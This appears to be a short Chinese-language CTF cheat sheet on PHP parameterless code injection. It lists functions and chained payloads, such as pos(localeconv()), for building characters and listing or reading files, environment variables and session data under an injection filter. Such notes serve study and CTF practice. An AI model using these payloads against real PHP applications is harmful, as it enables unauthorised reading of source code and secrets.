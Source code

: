 - ## 无参数注入
- ```
  scandir 
  var_dump 
  show_source 
  localtime 
  time 
  current 
  chr 
  pos 
  end 
  next 
  prev 
  array_reverse 
  readfile
  
  ```
- ## 可用payload
- ```
  pos(localeconv())
  
  next(str_split(zend_version()))
  
  end(str_split(hebrevc(crypt(next(hash_algos())))))
  
  chr(ord(crypt(serialize(array()))))）
  ```
- ### 其他
- ```
  array_flip
  array_rand
  array_reverse
  current（pos）
  类似的还有：
  文件
  file_get_contents()
  将整个文件读入一个字符串
  readfile()[readgzfile()]
  读取文件并写入到输出缓冲。
  highlight_file()[别名：show_source()]
  语法高亮一个文件
  scandir()
  列出指定路径中的文件和目录
  direname()
  给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名。
  2/19
  getcwd()
  取得当前工作目录。
  chdir($directory)
  将 PHP 的当前目录改为 directory。
  读取环境变量
  get_defined_vars()
  此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义
  的变量。
  getenv
  获取一个环境变量的值
  localeconv()
  返回一包含本地数字及货币格式信息的数组,第一个值一直是.
  phpversion()
  获取当前的 PHP 版本
  zend_version()
  获取当前的 zend 版本（配合 str_split()割出点）
  会话
  session_id
  获取/设置当前会话 ID
  session_start
  启动新会话或者重用现有会话
  ```
-